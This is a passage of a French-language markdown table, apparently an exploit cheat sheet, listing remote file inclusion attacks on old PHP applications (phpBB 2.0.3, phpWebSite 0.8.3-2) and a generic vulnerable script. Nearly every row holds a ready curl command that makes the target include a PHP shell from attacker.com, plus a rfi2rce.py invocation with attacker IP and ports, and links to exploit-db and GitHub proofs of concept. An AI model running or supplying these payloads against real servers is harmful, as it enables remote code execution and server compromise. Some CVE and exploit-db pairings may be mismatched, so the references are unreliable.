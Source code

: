 | CVE-2003-0488 | PHP / phpBB 2.0.3 | `curl "http://cible/viewtopic.php?highlight=http://attacker.com/shell.txt"` | RFI dans phpBB permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2341](https://www.exploit-db.com/exploits/2341) |
| CVE-2002-1234 | PHP / phpWebSite 0.8.3-2 | `curl "http://cible/index.php?module=http://attacker.com/shell.txt"` | RFI dans phpWebSite permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2116](https://www.exploit-db.com/exploits/2116) |
| CVE-2002-1233 | PHP / phpWebSite 0.8.3-2 | `curl "http://cible/index.php?module=http://attacker.com/shell.txt"` | RFI dans phpWebSite permettant l’exécution de code distant. | [https://www.exploit-db.com/exploits/2115](https://www.exploit-db.com/exploits/2115) |
| - | Générique / PHP (PoC universel) | `curl "http://cible/vuln.php?file=http://attacker.com/shell.txt"`<br>ou<br>`python3 rfi2rce.py http://cible/vuln.php?file= 10.0.2.15 1337 8080` | RFI universel : inclusion et exécution d’un shell PHP distant, compromission du serveur. | [https://github.com/0bfxgh0st/rfi2rce](https://github.com/0bfxgh0st/rfi2rce) |

---

